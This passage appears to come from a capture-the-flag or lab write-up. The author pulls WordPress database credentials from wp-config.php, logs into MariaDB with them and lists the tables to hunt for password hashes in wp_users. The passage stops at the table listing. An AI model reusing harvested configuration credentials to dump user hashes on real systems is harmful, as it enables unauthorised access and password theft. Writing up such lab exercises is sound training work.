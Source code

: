![](images/ss6.png)

The wp-config.php file has the local database credentials in it:

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );
```

I login to the database and check the wp_users for hashes:

`mysql -u wp_user -p`

```
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 25492
Server version: 10.3.22-MariaDB-1ubuntu1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.000 sec)
```